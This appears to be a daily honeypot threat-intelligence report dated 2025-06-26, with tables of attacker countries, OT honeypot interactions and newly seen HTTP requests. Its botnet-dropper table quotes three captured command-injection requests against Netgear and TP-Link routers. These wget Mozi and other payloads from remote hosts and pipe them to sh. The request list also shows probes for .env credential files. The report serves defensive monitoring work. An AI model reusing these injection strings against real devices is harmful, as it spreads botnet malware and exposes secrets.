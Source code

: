 ```yaml
---
title: "Report: 2025-06-26 "
date: 2025-06-26
desciption: "Report: 2025-06-26" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-26 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 31 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 716 requests were recorded during the day, originating from 3 different countries, with a peak of 214 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| ID               | Germany            |
| BR               | Germany            |
| KR               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| BR               | Germany            |
| KR               | Germany            |
| US               | Dubai              |
| PT               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                       |
|:---------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 175.149.79.234 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.149.79.234:46391/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 117.200.81.189 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.200.81.189:33364/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 87.121.84.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://220.158.232.99/x/tplink+-O-|sh) HTTP/1.1                                                   |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
|  63 |                     2 | GET /cgi-bin/diagnostics.cgi HTTP/1.1                |
|  77 |                     1 | GET /OdinHttpCall1750911301 HTTP/1.1                 |
| 102 |                     1 | GET /OdinHttpCall1750925483 HTTP/1.1                 |
| 103 |                     1 | GET /Odin/http/call1750925483 HTTP/1.1               |
| 104 |                     1 | GET /odinhttpcall1750925483 HTTP/1.1                 |
| 111 |                     1 | GET /Odin/http/call1750911301 HTTP/1.1               |
| 112 |                     1 | GET /odinhttpcall1750911301 HTTP/1.1                 |
| 126 |                     1 | \x00\x0E8\xAF\xF2\xF9\xC2/j.*\x00\x00\x00\x00\x00    |
| 148 |                     1 | \x00\x0E\x08\xAF\xF2\xF9\xC2/j.*\x00\x00\x00\x00\x00 |
| 212 |                     1 | GET /dev/.env~ HTTP/1.1                              |
| 214 |                     1 | GET /dev/.env0 HTTP/1.1                              |
| 216 |                     1 | GET /jest/.env HTTP/1.1                              |
| 217 |                     1 | GET /helm/.env HTTP/1.1                              |
| 218 |                     1 | GET /debug.env HTTP/1.1                              |
| 222 |                     1 | GET /email.env HTTP/1.1                              |
| 223 |                     1 | GET /env_2.txt HTTP/1.1                              |
| 224 |                     1 | GET /front.env HTTP/1.1                              |
| 225 |                     1 | GET /brevo.env HTTP/1.1                              |
| 226 |                     1 | GET /api/.env0 HTTP/1.1                              |
| 227 |                     1 | GET /.env_user HTTP/1.1                              |
| 229 |                     1 | GET /.prod-env HTTP/1.1                              |
| 230 |                     1 | GET /admin.env HTTP/1.1                              |
| 231 |                     1 | GET /app/.env~ HTTP/1.1                              |
| 232 |                     1 | GET /User/.env HTTP/1.1                              |
| 233 |                     1 | GET /cloud.env HTTP/1.1                              |
| 234 |                     1 | GET /api/.env~ HTTP/1.1                              |
| 235 |                     1 | GET /cicd/.env HTTP/1.1                              |
| 237 |                     1 | GET /build.env HTTP/1.1                              |
| 238 |                     1 | GET /.env-ssrf HTTP/1.1                              |
| 239 |                     1 | GET /.env-smtp HTTP/1.1                              |
| 240 |                     1 | GET /.env_path HTTP/1.1                              |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   214 | US                 |
|  1 |                   115 | DE                 |
|  2 |                    65 | GB                 |
|  3 |                    48 | PT                 |
|  4 |                    45 | BG                 |
|  5 |                    39 | NL                 |
|  6 |                    27 | JP                 |
|  7 |                    24 | SC                 |
|  8 |                    19 | SG                 |
|  9 |                    14 | CN                 |
| 10 |                     9 | CH                 |
| 11 |                     7 | MD                 |
| 12 |                     7 | HK                 |
| 13 |                     6 | PL                 |
| 14 |                     6 | BE                 |
| 15 |                     6 | BR                 |
| 16 |                     5 | KR                 |
| 17 |                     5 | UA                 |
| 18 |                     5 | TR                 |
| 19 |                     5 | RU                 |
| 20 |                     5 | ZA                 |
| 21 |                     4 | RO                 |
| 22 |                     4 | ID                 |
| 23 |                     4 | FR                 |
| 24 |                     3 | KZ                 |
| 25 |                     3 | AR                 |
| 26 |                     2 | IN                 |
| 27 |                     2 | MC                 |
| 28 |                     2 | IE                 |
| 29 |                     2 | CA                 |
| 30 |                     2 | IL                 |
| 31 |                     2 | AO                 |
| 32 |                     2 | VN                 |
| 33 |                     1 | CZ                 |
| 34 |                     1 | IR                 |
| 35 |                     1 | ES                 |
| 36 |                     1 | CO                 |
| 37 |                     1 | SE                 |
| 38 |                     1 | PH                 |
| 39 |                     1 | MY                 |
| 40 |                     1 | LT                 |
